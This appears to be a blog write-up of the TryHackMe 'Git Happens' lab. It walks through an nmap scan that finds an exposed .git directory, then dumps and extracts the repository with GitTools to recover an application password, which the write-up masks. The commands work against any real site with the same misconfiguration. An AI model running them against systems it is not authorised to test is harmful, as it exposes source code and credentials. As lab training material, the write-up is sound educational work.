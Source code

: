 ```yaml
---
title: "Git Happens - TryHackMe"
category: "THM"
pubDate: 2020-08-21
description: "Writeup for the Git Happens room"
---
```

[TryHackMe | Git Happens](https://tryhackme.com/room/githappens)

Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!

Can you find the password to the application?

---

### Setup

```
└──╼ $ nmap -A -T4 10.10.58.41
```

```
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git:
|   10.10.58.41:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As you can see the nmap scan found a ".git" repertory on the website, let's use some tools to get all the data.

[internetwache/GitTools](https://github.com/internetwache/GitTools)

![](https://i.imgur.com/XXygrPA.png)

```
└──╼ $ ./gitdumper.sh http://10.10.58.41/.git/ .
```

Once the dumper script get all the data let's use the extractor script to have all the source code.

![](https://i.imgur.com/8DyZR2H.png)

```
└──╼ $ ./extractor.sh ~/Desktop/TryHackMe/git-thm/GitTools/Dumper/ .
```

![](https://i.imgur.com/a53y7oc.png)

As you can see the script created some directory, let's see if the password is in there.

### **#1 Find the Super Secret Password**

![](https://i.imgur.com/SzdvdmG.png)

```
Th**_**_*_****_****_******_*******!
```



